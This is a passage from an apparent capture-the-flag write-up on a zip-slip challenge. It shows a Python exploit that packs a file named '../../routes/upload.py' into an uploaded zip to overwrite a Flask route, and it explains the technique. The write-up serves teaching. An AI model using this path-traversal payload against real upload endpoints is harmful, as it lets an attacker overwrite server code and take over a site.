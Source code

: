 ```python
                    tf.write(zf.open(f.filename, 'r').read())
                 
        flash(f'Zip sucessfully unzipped. Download it by going to /upload/{filename.rsplit(".", 1)[0]}', 'success')
        return redirect(url_for('upload'))
    else:
        flag = open("./app/templates/admin.html").read()      # Change the normal return to render a string with 
        return render_template_string("{{flag}}", flag=flag)  # the contents of admin.html


@app.route('/upload/<dir>', methods=['GET'])
@login_required
def show_unzip(dir):
    path = app.config["UPLOAD_FOLDER"] + "/" + dir
    if os.path.isdir(path):
        files = os.listdir(path)
        return render_template('files.html', name=current_user.username, files=files)
    else:
        flash('That directory does not exist', 'danger')
        return redirect(url_for('upload'))

@app.route('/upload/<dir>/<name>', methods=['GET'])
@login_required
def serve_unzip(dir, name):
    path = f'{app.config["UPLOAD_FOLDER"]}/{dir}/{name}'
    if os.path.isfile(path):
        return send_from_directory(f'{app.config["UPLOAD_FOLDER"]}/{dir}', filename=name, as_attachment=True)
    else:
        flash('That file does not exist', 'danger')
        return redirect(url_for('upload'))
"""

fh = io.BytesIO()
with zipfile.ZipFile(fh, "a", zipfile.ZIP_DEFLATED, False) as zf:
    zf.writestr("../../routes/upload.py", payload)

r = requests.post(url=SERVER_ADDR + "/upload", files={"file": ('test.zip', fh.getvalue())}, cookies=cookie)
```

The first part gets us our session cookie so we can make requests (make sure to make a user first). Skip the payload for now. The final block of code will create a zipfile in memory (you can probably do it a different way, but this is nice and clean) with a file inside the zip with a filename of `../../routes/upload.py`. The contents of the file is defined in that huge payload string. This is literally just the upload.py file given in the challenge with a few changes marked with comments. Basically, we just want the `/upload` page to render the admin.html page when we GET request it.

Finally, we just post our request. Let's see what happens when we run it and go to the `/upload` page.
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/zipslip_flag.png" width=70%  height=70%></p>

